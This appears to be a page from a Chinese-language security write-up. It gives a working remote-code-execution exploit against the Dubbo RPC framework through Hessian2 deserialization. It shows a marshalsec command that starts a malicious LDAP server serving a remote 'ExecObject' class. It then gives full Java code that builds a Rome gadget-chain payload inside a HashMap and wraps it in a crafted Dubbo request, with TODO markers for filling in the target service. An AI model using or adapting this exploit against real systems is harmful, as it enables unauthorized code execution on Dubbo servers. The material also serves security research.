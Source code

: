 启动ldap服务

```
java -jar marshalsec.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:80/#ExecObject 44321
```

构造payload

```
JdbcRowSetImpl rs = new JdbcRowSetImpl();
//todo 此处填写ldap url
rs.setDataSourceName("ldap://127.0.0.1:43658/ExecObject");
rs.setMatchColumn("foo");
Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);

ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
EqualsBean root = new EqualsBean(ToStringBean.class, item);

HashMap s = new HashMap&lt;&gt;();
Reflections.setFieldValue(s, "size", 2);
Class&lt;?&gt; nodeC;
try `{`
  nodeC = Class.forName("java.util.HashMap$Node");
`}`
catch ( ClassNotFoundException e ) `{`
  nodeC = Class.forName("java.util.HashMap$Entry");
`}`
Constructor&lt;?&gt; nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
nodeCons.setAccessible(true);

Object tbl = Array.newInstance(nodeC, 2);
Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
Reflections.setFieldValue(s, "table", tbl);

ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

// header.
byte[] header = new byte[16];
// set magic number.
Bytes.short2bytes((short) 0xdabb, header);
// set request and serialization flag.
header[2] = (byte) ((byte) 0x80 | 2);

// set request id.
Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

out.writeUTF("2.0.2");
//todo 此处填写注册中心获取到的service全限定名、版本号、方法名
out.writeUTF("com.threedr3am.learn.server.boot.DemoService");
out.writeUTF("1.0");
out.writeUTF("hello");
//todo 方法描述不需要修改，因为此处需要指定map的payload去触发
out.writeUTF("Ljava/util/Map;");
out.writeObject(s);
out.writeObject(new HashMap());

out.flushBuffer();
if (out instanceof Cleanable) `{`
  ((Cleanable) out).cleanup();
`}`
```